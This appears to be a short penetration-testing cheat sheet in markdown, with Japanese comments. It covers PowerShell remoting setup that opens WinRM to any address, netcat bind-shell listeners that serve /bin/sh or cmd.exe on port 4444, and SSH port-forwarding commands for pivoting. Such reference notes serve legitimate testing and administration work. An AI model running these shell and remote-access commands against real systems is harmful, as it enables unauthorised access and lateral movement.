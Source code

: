 # penetration-wiki

## PS-Session

### Server Settings

- username = `easyduck`
- password = `verystrongpassword`
- hostname = `rhostname`
- ipaddress = `xxx.xxx.xxx.xxx`

```pwsh
Enable-PSRemoting
Set-NetFirewallRule -Name "WINRM-HTTP-In-TCP-PUBLIC" -RemoteAddress Any
net start WinRM
```

### Client

pattern 1

```pwsh
Enter-PSSession -ComputerName "xxx.xxx.xxx.xxx" -Credential "easyduck"
```

pattern 2

```pwsh
Enter-PSSession -ComputerName "hostname"-Credential "easyduck"
```

## Netcat

## Server Settings

- RPORT = `4444`
- RHOST = `xxx.xxx.xxx.xxx`

```bash
nc -lvp 4444 -e /bin/sh
nc -lvp 4444 -e cmd.exe
```

## Client

```bash
nc xxx.xxx.xxx.xxx 4444
```

## SSH Port Forwarding

### Local forward

ローカルにあるツールをremoteに対して使いたい場合

```
ssh -fNT -L xxx:target:zzz remote
```

### Remote forward

外部にあるサーバーにremoteからアクセスさせたい場合

```
ssh -fNT -R xxx:remote:zzz target
```
